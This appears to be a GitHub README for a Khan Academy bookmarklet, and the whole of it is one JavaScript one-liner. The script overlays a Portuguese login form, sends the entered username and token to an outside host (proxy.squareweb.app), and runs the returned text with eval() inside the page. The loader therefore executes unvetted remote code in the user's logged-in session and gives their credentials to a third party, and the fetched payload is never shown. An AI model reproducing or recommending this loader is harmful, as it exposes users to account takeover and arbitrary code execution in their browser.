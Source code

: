 # Khanacademy-
Khan 
javascript:(function(){const formHtml=`<div id="authForm" style="position:fixed;top:50%;left:50%;transform:translate(-50%,-50%);background-color:#121212;color:#fff;border:1px solid #E51C4D;border-radius:10px;padding:20px;box-shadow:0 4px 20px rgba(0,0,0,0.5);z-index:1000;width:300px;max-width:90%;"><h2 style="color:#E51C4D;text-align:center;">AutenticaÃ§Ã£o</h2><label for="username">Nome de UsuÃ¡rio:</label><br><input type="text" id="username" required style="width:100%;box-sizing:border-box;padding:10px;border-radius:5px;border:1px solid #E51C4D;background-color:#222;color:#fff;margin-bottom:10px;"><label for="token">Token:</label><br><input type="text" id="token" required style="width:100%;box-sizing:border-box;padding:10px;border-radius:5px;border:1px solid #E51C4D;background-color:#222;color:#fff;margin-bottom:20px;"><button id="submitBtn" style="background-color:#E51C4D;color:#fff;padding:10px;border:none;border-radius:5px;width:100%;cursor:pointer;">Enviar</button><button id="cancelBtn" style="background-color:#555;color:#fff;padding:10px;border:none;border-radius:5px;width:100%;cursor:pointer;margin-top:10px;">Cancelar</button></div>`;document.body.insertAdjacentHTML('beforeend',formHtml);const submitBtn=document.getElementById('submitBtn');const cancelBtn=document.getElementById('cancelBtn');submitBtn.onclick=function(){const user=document.getElementById('username').value;const token=document.getElementById('token').value;if(!user||!token){alert('Por favor, preencha todos os campos.');return;}const apiUrl=`https://proxy.squareweb.app/ramdomtin/toolblue?user=${encodeURIComponent(user)}&token=${encodeURIComponent(token)}`;fetch(apiUrl).then(response=>{if(!response.ok){return response.text().then(text=>{throw new Error(text||'Erro na resposta do servidor.');});}return response.text();}).then(script=>{if(script&&!script.trim().startsWith('<')){eval(script);document.getElementById('authForm').remove();}else{alert('Erro na resposta do servidor.');}}).catch(error=>alert(error.message||'Ops, algo deu errado.'));};cancelBtn.onclick=function(){document.getElementById('authForm').remove();};})();
